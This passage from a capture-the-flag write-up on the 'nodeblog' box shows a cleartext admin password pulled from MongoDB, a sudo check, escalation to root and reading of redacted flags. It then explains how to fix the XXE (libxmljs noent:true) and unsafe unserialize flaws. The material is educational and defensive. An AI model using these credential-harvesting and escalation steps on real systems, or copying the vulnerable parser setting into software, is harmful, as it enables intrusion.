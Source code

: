 ```bash
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

The `users` collection had the admin password in clear text. I tried it with sudo, and it worked. 

```
admin@nodeblog:/opt/blog$ sudo -l
[sudo] password for admin:
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```

Admin was allowed to run any command as any user. I used that to su as root, and read both flags.

```bash
admin@nodeblog:/opt/blog$ sudo su -

root@nodeblog:~# ls /home/admin
user.txt

root@nodeblog:~# cat /home/admin/user.txt
REDACTED

root@nodeblog:~# ls /root
root.txt  snap

root@nodeblog:~# cat /root/root.txt
REDACTED
```


## Mitigation

After I got root access, I looked at how the box could be protected. The first issue to prevent is the XXE. The code uses the [Libxmljs](https://github.com/libxmljs/libxmljs/wiki) library to parse the XML.

```js
const doc = libxmljs.parseXmlString(xml, {noent: true,noblanks:true})
```

To prevent this vulnerability, [noent should be set to false](https://rules.sonarsource.com/javascript/RSPEC-2755). I changed it in the code, restarted the web server, and my XML payload stopped working.

The next problem is the unserializing that led to the RCE. Unserialize should never be used on user supplied data. Unserializing makes it easy to execute some random code on the server. The cookie should have only contained a session id. This id could then be validated and used to retrieve the user's data from the session. 

